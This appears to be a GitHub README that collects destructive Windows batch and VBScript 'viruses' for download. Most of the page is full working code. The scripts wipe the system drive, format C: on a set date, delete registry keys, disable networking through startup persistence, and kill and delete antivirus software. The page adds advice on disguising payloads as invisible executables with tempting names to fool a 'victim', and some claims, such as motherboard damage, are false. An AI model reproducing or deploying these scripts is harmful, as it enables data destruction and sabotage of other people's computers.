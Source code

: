 <h1 align="center"> Batch Viruses</h1>

## An awesome collection of different kinds of Computer Viruses written in Batch File.

---
<img src="https://user-images.githubusercontent.com/73777108/149873561-ace30728-a82f-466b-8e43-0433c2c2e87d.png" align="right">

Create amazing yet Deadly viruses with small yet deadly codes. These can be created with just Notepad, and even be downloaded from here.
The viruses here are mostly very dangerous.



---
## ⚠️ALERT: 

- These are only for educational purposes. 
- Never try them on your own device until you are sure of what you are doing.
- Me, or any other contributor to this repo will not be responsible for any damage to your device.
- Handle files with care and awareness.
- Most damages can't be restored or recovered.

---

# The Awesome List of Computer Viruses!


### 1. Deletes all content of a drive


<details><summary> Read More </summary>
 
  
  
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus1.bat">virus1.bat</a></p>
<pre><code> @<span class="hljs-built_in">echo</span> off
<span class="hljs-built_in">del</span> <span class="hljs-variable">%systemdrive%</span>\*.* /f /s /q
shutdown -r -f -t <span class="hljs-number">00</span>
</code></pre>
 

  </details>



### 2. Time Bomb Virus, formats C: on 25 November 2023


<details><summary> Read More </summary>
  
  
  
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus2.bat">virus2.bat</a></p>
<pre><code><span class="hljs-keyword">If</span> <span class="hljs-variable">%date%</span> <span class="hljs-keyword">NEQ</span> <span class="hljs-number">2023</span>/<span class="hljs-number">11</span>/<span class="hljs-number">25</span> <span class="hljs-keyword">goto</span> <span class="hljs-keyword">exit</span>
<span class="hljs-built_in">format</span> C: /y &gt;<span class="hljs-built_in">nul</span>
:<span class="hljs-keyword">exit</span>
<span class="hljs-keyword">exit</span>
</code></pre><p>The Date, Time, and the Drive to be formatted can be changed.</p>
  
   

  </details>



### 3. Crash Ur Computer of Windows Xp


<details><summary> Read More </summary>

<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus3.bat">virus3.bat</a></p>
<pre><code><span class="hljs-keyword">Option</span> <span class="hljs-keyword">Explicit</span>

<span class="hljs-keyword">Dim</span> WSHShell
<span class="hljs-keyword">Set</span> WSHShell=Wscript.<span class="hljs-built_in">CreateObject</span>(“Wscript.Shell”)

<span class="hljs-keyword">Dim</span> x
<span class="hljs-keyword">For</span> x = <span class="hljs-number">1</span> <span class="hljs-keyword">to</span> <span class="hljs-number">100000000</span>
WSHShell.Run “Tourstart.exe”
<span class="hljs-keyword">Next</span>
</code></pre><p>This Virus works only for Windows XP, and besides formatting the drives, it damages the motherboard.</p>

   

  </details>

### 4.  Delete Key Registry Files 



<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus4.bat">virus4.bat</a></p>
<pre><code>@ECHO OFF
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/.<span class="hljs-keyword">exe</span>
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/.dll
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/*
:MESSAGE
ECHO Your computer <span class="hljs-built_in">has</span> been fcked. Have <span class="hljs-keyword">a</span> nice day.
GOTO MESSAGE
</code></pre><p>This virus is extremely dangerous, don&#39;t run it on your device.</p>

  </details>

### 5. The Most Simple Virus To Crush The Window. Delete C:/


<details><summary> Read More </summary>
 
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus5.bat">virus5.bat</a></p>
<pre><code>@Echo <span class="hljs-literal">off</span>
Del C:<span class="hljs-string">\</span> *.* |y
</code></pre><p>Your device will not restart again, after it runs once!</p>

 
  </details>
 
 
 ### 6. Endless Notepads


<details><summary> Read More </summary>
 
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus6.bat">virus6.bat</a></p>
<pre><code>@<span class="hljs-built_in">ECHO</span> off
:top
<span class="hljs-built_in">START</span> <span class="hljs-variable">%SystemRoot%</span>\system32\notepad.exe
<span class="hljs-keyword">GOTO</span> top
</code></pre><p>This will open endless notepads, until ur system gets overloaded, hanged, and crashed!</p>
<p>NOTE : If you mistakenly open it, immediately power of and force shut down your computer, else it may crash, never to start again.</p>

 
  </details>
 

### 7. Disable Internet Permanently


<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus7.bat">virus7.bat</a></p>
<pre><code><span class="hljs-symbol">echo</span> <span class="hljs-comment">@echo off&gt;c:windowswimn32.bat</span>
<span class="hljs-symbol">echo</span> <span class="hljs-keyword">break </span>off&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">echo</span> ipconfig/release_all&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">echo</span> <span class="hljs-meta">end</span>&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">reg</span> <span class="hljs-keyword">add </span>hkey_local_machinesoftwaremicrosoftwindowscurrentv ersionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.<span class="hljs-keyword">bat </span>/f
<span class="hljs-symbol">reg</span> <span class="hljs-keyword">add </span>hkey_current_usersoftwaremicrosoftwindowscurrentve rsionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.<span class="hljs-keyword">bat </span>/f
<span class="hljs-symbol">echo</span> You Have <span class="hljs-keyword">Been </span>HACKED!
<span class="hljs-symbol">PAUSE</span>
</code></pre><p>Your device will never ever connect to the internet if this virus runs once!</p>
  
  </details>
 


### 8. Crazy Caps Lock


<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus8.bat">virus8.bat</a></p>
<pre><code><span class="hljs-keyword">Set</span> wshShell <span class="hljs-comment">=wscript.CreateObject(</span>”<span class="hljs-comment">WScript.Shell</span>”<span class="hljs-comment">)</span>
do
wscript.sleep <span class="hljs-comment">100</span>
wshshell.sendkeys “<span class="hljs-comment">{CAPSLOCK}</span>”
loop
</code></pre><p>This repeatedly toggles your Caps Lock key. It is fully harmless and gets proper on reboot, or once the task is ended in Task Manager.</p>

   
  </details>


### 9. Endless Backspace



<details><summary> Read More </summary>
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus9.bat">virus9.bat</a></p>
<pre><code>MsgBox “Let’s go back <span class="hljs-selector-tag">a</span> few steps”
Set wshShell =wscript.CreateObject(”WScript.Shell”)
do
wscript<span class="hljs-selector-class">.sleep</span> <span class="hljs-number">100</span>
wshshell<span class="hljs-selector-class">.sendkeys</span> “{bs}”
loop
</code></pre><p>This will repeatedly keep pressing your Backspace, and will not let u type. It pops up a message; “Let’s go back a few steps”, and starts nuisence. Anyways, it is temporary, and harmless.</p>
    
  </details>


### 10. Disable the Antivirus



<details><summary> Read More </summary>
 
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus10.bat">virus10.bat</a></p>
<pre><code>@ echo off
rem —
rem Permanently Kill Anti-Virus
net stop “Security Center”
netsh firewall <span class="hljs-keyword">set</span> opmode <span class="hljs-comment">mode=disable</span>
tskill /A av*
tskill /<span class="hljs-comment">A fire*</span>
tskill /A anti*
cls
tskill /<span class="hljs-comment">A spy*</span>
tskill /A bullguard
tskill /<span class="hljs-comment">A PersFw</span>
tskill /A KAV*
tskill /<span class="hljs-comment">A ZONEALARM</span>
tskill /A SAFEWEB
cls
tskill /<span class="hljs-comment">A OUTPOST</span>
tskill /A nv*
tskill /<span class="hljs-comment">A nav*</span>
tskill /A F-*
tskill /<span class="hljs-comment">A ESAFE</span>
tskill /A cle
cls
tskill /<span class="hljs-comment">A BLACKICE</span>
tskill /A def*
tskill /<span class="hljs-comment">A kav</span>
tskill /A kav*
tskill /<span class="hljs-comment">A avg*</span>
tskill /A ash*
cls
tskill /<span class="hljs-comment">A aswupdsv</span>
tskill /A ewid*
tskill /<span class="hljs-comment">A guard*</span>
tskill /A guar*
tskill /<span class="hljs-comment">A gcasDt*</span>
tskill /A msmp*
cls
tskill /<span class="hljs-comment">A mcafe*</span>
tskill /A mghtml
tskill /<span class="hljs-comment">A msiexec</span>
tskill /A outpost
tskill /<span class="hljs-comment">A isafe</span>
tskill /A zap*
cls
tskill /<span class="hljs-comment">A zauinst</span>
tskill /A upd*
tskill /<span class="hljs-comment">A zlclien*</span>
tskill /A minilog
tskill /<span class="hljs-comment">A cc*</span>
tskill /A norton*
cls
tskill /<span class="hljs-comment">A norton au*</span>
tskill /A ccc*
tskill /<span class="hljs-comment">A npfmn*</span>
tskill /A loge*
tskill /<span class="hljs-comment">A nisum*</span>
tskill /A issvc
tskill /<span class="hljs-comment">A tmp*</span>
cls
tskill /A tmn*
tskill /<span class="hljs-comment">A pcc*</span>
tskill /A cpd*
tskill /<span class="hljs-comment">A pop*</span>
tskill /A pav*
tskill /<span class="hljs-comment">A padmin</span>
cls
tskill /A panda*
tskill /<span class="hljs-comment">A avsch*</span>
tskill /A sche*
tskill /<span class="hljs-comment">A syman*</span>
tskill /A virus*
tskill /<span class="hljs-comment">A realm*</span>
cls
tskill /A sweep*
tskill /<span class="hljs-comment">A scan*</span>
tskill /A ad-*
tskill /<span class="hljs-comment">A safe*</span>
tskill /A avas*
tskill /<span class="hljs-comment">A norm*</span>
cls
tskill /A offg*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\alwils~<span class="hljs-number">1</span>\avast4\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Lavasoft\Ad-awa~<span class="hljs-number">1</span>\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kasper~<span class="hljs-number">1</span>\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\trojan~<span class="hljs-number">1</span>\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\f-prot95\*.dll
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\tbav\*.dat
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avpersonal\*.vdf
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\*.cnt
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Mcafee\*.*
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">3</span>\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">1</span>\speedd~<span class="hljs-number">1</span>\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">1</span>\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\*.*
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgamsr\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgamsvr\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgemc\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgcc\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgupsvc\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\grisoft
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nood32krn\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nood32\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nod32
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nood32
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kav\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kavmm\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kaspersky\*.*
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\ewidoctrl\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\guard\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\ewido\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\pavprsrv\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\pavprot\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avengine\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\apvxdwin\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\webproxy\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\panda software\*.*
rem —
</code></pre><p>This will disable your antivirus for the timbing.  One can run it on Victim computer before loading any virus to it!</p>
     
  </details>
 
 
 
 ## This was just a list of ten. There are 25 More in our collection, here on GitHub! Just Have a look at thm:

- Task-kill some apps
- Command Line Notepad
- CD/ROM popper with malicious popups

<details><summary>Details</summary>

CD/ROM keeps opening  and closing ...an error msg keeps popping up  and when i turn on my PC an error msg shows so i have to press ok then open my account

</details>

- CD drive popup
- Stop current Internet access
- Format all Drives from C to J
- Delete Entire Registry
- Crash PC for ever
- Application bomber
- Delete System 32 Folder
- Disgust and shut down!
- Destroy-shutdown with popup
- Shutdowns Computer Everytime It Is Turned On
- Change useful random files to on-working txt files
- System meltdown
- Flood internet
- System Crash

<details><summary>Details</summary>
It will make you unable to use your PC and FORCE you to install Windows OS again. You will only be aware of the infiltration the next time you turn on your Computer! Use the latest version of “Bat To Exe Converter” and add Administrator manifest to it and make it Invisible application before converting it to .exe! Your victim doesn’t even know what is happening or what this virus did. Your trusted Antivirus can’t even detect it cause this file doesn’t work as normal viruses but the later damage will be way too much than what a couple of malware can do.
You may name it in a sexy way like GTA and choose the appropriate icon to attract your victim’s attention. But please, don’t try to be an ASS HAT with it.

</details>
- Matrix virus

<details><summary>Details</summary>

AS IT WAS TOO DANGEROUS, THE ACTUAL HEADER FILES FOR THIS SCRIPT ARE NOT GIVEN
AND IF U WANT TO TRY THIS SCRIPT U CAN JUST USE OF HEADER FILES SUCH AS STDIN, STDLIB, CONIO, AND STUFF LIKE THAT

</details>

- Bloat random folder
- User Account Bloatware
- Overload with unlimited background processes
- Killer and system crasher virus

<details><summary>Details</summary>

Here is a Batch File virus which can:

1.Copy itself into startup
2.Copy itself over one thousand times into random spots in your computer.
3.Hide its self and all other created files
4.Task kill MSN, Norton, Windows Explorer, Limewire.
5.Swap the left mouse button with the right one
6.Opens alert boxes
7.Changes the time to 12:00 and shuts down the computer
copy this code into notepad and save as Greatgame.bat(while saving select all files instead of text ).

</details>

- Show incognito history
- Delete entire system
- Command Line Notepad

<details><summary>Details</summary>
Form Of Switches

-s
Shuts down the PC.

-l
Logs off the current user.

-t nn
Indicates the duration of delay, in seconds, before performing the action.

-c “messagetext”
Displays a message in the System Shutdown window. A maximum of 127 characters can be used. The message must be enclosed in quotation marks.

-f
Forces any running applications to shut down.

-r
Reboots the PC. ..!!!

</details>
- Text bloater
